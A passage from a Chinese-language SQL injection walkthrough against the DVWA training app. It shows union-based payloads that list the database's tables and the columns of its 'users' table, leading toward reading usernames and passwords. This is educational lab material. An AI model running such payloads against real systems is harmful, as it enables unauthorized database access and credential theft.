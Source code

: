 接下来，我们查看dvwa库中的所有表名。

```sql
1'and 1=2 union select 1,table_name from information_schema.tables where table_schema= 'dvwa'#
```

![image-20220218144245803](../../images/image-20220218144245803.png)

攻击者往往关心存储管理员用户与密码信息的表。所以接下来就是users表了。要查询users表中所有的列。

```sql
1'and 1=2 union select 2,column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users'#
```

![image-20220218143207987](../../images/image-20220218143207987.png)

最后我们查看，user和password两列的信息。
